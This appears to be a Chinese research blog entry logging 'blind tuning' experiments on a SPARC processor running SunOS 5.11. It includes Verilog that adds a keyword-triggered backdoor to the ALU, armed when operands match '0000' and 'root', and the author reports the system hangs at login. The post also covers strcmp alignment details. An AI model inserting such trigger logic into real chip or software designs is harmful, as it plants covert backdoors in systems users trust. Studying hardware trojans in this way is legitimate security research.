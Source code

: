 ```yaml
---
title: 慢慢来，一次一次的试，盲调
published: true
---
```


现在的情况是没法达成预期的结果，但在SunOS 5.11上，指令可以被改乱从而系统就跑乱了。

逆向的结果，这个版本的libc里的strcmp，如果字符串地址4字节对齐，就一次读4字节，否则就一个字节一个字节的读。

而ubuntu7.10的strcmp，是字符串如果不是8字节对齐，就一字节一字节比较，用ldub；否则就是ldx，一次8字节。
这个系统内核是64位，用户层程序都是32位，我怀疑 malloc得到的buffer是4字节对齐。这样strcmp就只能一字节一字节的比较了。

--------------------------------------------
## 测试0

** uty_opensolaris_patchbitgen1c4t_test36.ace **

测试SunOS 5.11，只要检测到输入的字符分别是0000和root，sparc就把后面所有的sub操作结果都返回0，这样系统肯定是运行不正常了。
这可以反推出sub指令成功接到了0000和root。


`````verilog
   // uty: test
   //  cout64_e should be 1
   // 0x726f6f74 root
   assign backdoor_on_keyword = ((32'h30303030 == byp_alu_rs1_data_e[31:0]) && (32'h726f6f74 == byp_alu_rs2_data_e[31:0]))
                                || ((32'h30303030 == byp_alu_rs2_data_e[31:0]) && (32'h726f6f74 == byp_alu_rs1_data_e[31:0]));
   assign backdoor_off_keyword = ((32'h30303031 == byp_alu_rs1_data_e[31:0]) && (32'h726f6f74 == byp_alu_rs2_data_e[31:0]))
                                || ((32'h30303031 == byp_alu_rs2_data_e[31:0]) && (32'h726f6f74 == byp_alu_rs1_data_e[31:0]));

   assign backdoor_en = backdoor_on_keyword | backdoor_off_keyword;
   assign backdoor_nxt = (backdoor_on_keyword & (~backdoor_off_keyword));

   dffe_s #(1) backdoor_dff(.din(backdoor_nxt), .en(backdoor_en),
                        .clk(clk), .q(backdoor_r), .se(se),
                        .si(), .so());
...

   assign trigger_backdoor = backdoor_r;

`````

这个测试成功了，在login的时候输入0000，系统就挂了。

### 结论：rs1 rs2同时出现过0x30303030和0x726f6f74

--------------------------------------------
